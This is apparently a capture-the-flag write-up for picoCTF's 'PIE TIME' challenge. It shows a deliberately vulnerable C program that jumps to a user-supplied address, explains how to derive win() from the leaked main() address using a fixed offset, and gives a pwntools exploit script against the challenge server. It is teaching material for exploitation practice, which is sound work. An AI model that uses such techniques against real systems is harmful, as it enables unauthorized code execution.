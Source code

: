 # PIE TIME

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

First of all, run the command 
1. checksec vuln 

to check if the PIE is enabled.
Addresses in PIE are relative - that is, despite the binary being loaded into a random address, the offsets between parts of the binary will remain the same.
With this knowledge, 
2. run the file vuln inside Binary Ninja

![alt text](PIE-BN.png)

You can see that the address of the function `win()` is at 0x000012a7 and the `main()` at 0x0000133d. Given that the offset remains the same at each running instance, we compute it:
3. Offset = main() address - win() address = 0x96

This means that the win address will always be at: 
4. win() address = main() address - 0x96

Now, we can write the python script in order to get the flag.<br>
Firstly, we set up the connection:

```
hostname = "rescued-float.picoctf.net"  
port = 58193  
p = remote(hostname, port)
```
We wait for the server to respond with "main: ", that will preceed the main() address:
```
p.recvuntil(b"main: ") 
```
Then, we compute the win() address with the computed formula and send it to the server:
```
main_addr = int(p.recvline().strip(), 16)  
win_addr = main_addr - 0x96  
p.sendline(hex(win_addr))  
```
The line that follows the server output "You won" will contain the flag, so we save it in a variable and print it:
```
p.recvuntil(b"You won!\n")  
flag = p.recvline()
print(flag.strip().decode("utf-8"))  
```
We can then close the connection:
```
p.close()
```